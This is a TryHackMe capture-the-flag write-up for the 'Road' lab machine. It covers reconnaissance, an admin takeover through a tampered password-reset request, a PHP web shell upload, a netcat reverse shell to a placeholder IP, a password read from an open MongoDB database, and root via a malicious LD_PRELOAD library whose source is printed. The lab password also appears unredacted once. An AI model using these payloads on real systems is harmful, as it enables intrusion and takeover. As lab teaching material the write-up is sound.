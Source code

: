 # Road - TryHackMe Writeup

**Difficulty:** Medium  
**TL;DR:** Admin Account TakeOver → Upload Web shell & Revese Shell → Discover `webdeveloper` password → Privilege Escalation via `LD_PRELOAD`
-----------------------------
## Target
- Machine: `road.thm`
- Data: `2025-10-3`
- Environment: TryHackMe / CTF
-----------------------------

## Steps
1. Initial scan:

```bash
nmap -sV -sC -Pn -T4 road.thm

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

2. Directory discovery:

```bash
gobuster dir -u http://road.thm/ -w /usr/share/wordlists/dirb/big.txt -t 40

/assets               (Status: 301) [Size: 313]
/index.html           (Status: 200) [Size: 19607]
/phpMyAdmin           (Status: 301) [Size: 317]
/server-status        (Status: 403) [Size: 277]
/v2                   (Status: 301) [Size: 309]
```

`v2` page showing login panel
I Created new account to discovery


In `profile` page:

![showing_the_admin_account](images/Admin_Account.png)

admin account :`admin@sky.thm`



3. Admin Account Takeover :

There was a password reset page at:
`http://road.thm/v2/ResetUser.php`
Using Burp Suite, I intercepted the POST request to the password reset functionality.

I modified the username in the POST request from the current user to `admin@sky.thm`

![ScreenShot-Burp](/images/Account_Take.png)

The application allowed the password change for the admin account without proper authorization checks.

successfully logged in as `admin@sky.thm` using the new password set through the manipulated request.

4. Web Shell Upload

if we take a look at the source code of the `porfile.php` page we notice :
```html
<!-- /v2/profileimages/ -->
```
the loction of the directory that hold the profile images:
`http://road.thm/v2/profileimages/`

We can upload php files too. 

Uploaded `cmd.php` web shell containing:
```php
<?php system($_GET['cmd']); ?>
```
This allows remote command execution via the cmd parameter, enabling full system control through the web server.

Tested the web shell by accessing:
`http://road.thm/v2/profileimages/cmd.php?cmd=id`
![Web-Shell](images/cmd-test.png)

The command execution was successful, confirming remote code execution capability through the uploaded web shell.

5. Reverse Shell

Accessed the web shell to execute a reverse shell command:
`http://road.thm/v2/profileimages/cmd.php?cmd=busybox nc [YOUR_IP] 4444 -e bash `


Successful Connection & Shell Stabilization:
```bash
└─$ nc -lnvp 4444
listening on [any] 4444 ...


python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@sky:/var/www/html/v2/profileimages$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
Successfully obtained a reverse shell as `www-data` user, establishing initial access on the target system.

## User flag

Now we escalate to the `webdeveloper` user

Let's see what files belong to this user: 

```bash
www-data@sky:/var/www/html/phpMyAdmin$ find / -type f -user webdeveloper 2>/dev/null 
/home/webdeveloper/.bashrc
/home/webdeveloper/.mysql_history
/home/webdeveloper/.sudo_as_admin_successful
/home/webdeveloper/.bash_logout
/home/webdeveloper/.profile
/home/webdeveloper/user.txt
/usr/bin/mongoimport
/usr/bin/mongostat
/usr/bin/mongofiles
/usr/bin/mongorestore
/usr/bin/mongodump
/usr/bin/bsondump
/usr/bin/mongotop
/usr/bin/mongoexport
/usr/share/doc/mongodb-database-tools/README.md
/usr/share/doc/mongodb-database-tools/LICENSE.md
/usr/share/doc/mongodb-database-tools/THIRD-PARTY-NOTICES
```


We can access MongoDB without authentication:
```bash

mongo

>show dbs
> show dbs

admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB


> use backup
ususe backup
switched to db backup

> show tables
shshow tables
collection
user

> db.user.find()
dbdb.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "[REDACTED]!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }

> exit
```
We found `webdeveloper's` password in the MongoDB database: `[REDACTED]!@#`

Switch to the `webdeveloper` user and retrieve the user flag:

```bash
su webdeveloper
Password: BahamasChapp123!@#

webdeveloper@sky:~$ cat user.txt
cat user.txt
[REDACTED]
```

## Root flag

Privilege Escalation

```bash
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
webdeveloper@sky:~$ ls -la /usr/bin/sky_backup_utility
-rwxr-xr-x 1 root root 16704 Aug  7  2021 /usr/bin/sky_backup_utility
```
The user can run /usr/bin/sky_backup_utility as root with `LD_PRELOAD` environment variable preserved, allowing library injection attacks.

### SUID PATH Environmental Variable :

We create a malicious shared library that contains code executed automatically when loaded via `LD_PRELOAD`:

1. Create Malicious Shared Library :

```bash
cat > shell.c << 'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
EOF
```

2. Compile the Library :

```bash
gcc -fPIC -shared -nostartfiles -o shell.so shell.c
```
3. Execute the Exploit :

```bash

sudo LD_PRELOAD=./shell.so /usr/bin/sky_backup_utility

id

# uid=0(root) gid=0(root) groups=0(root)
```
4. root.txt

```bash
cat /root/root.txt 

# [REDACTED]


```
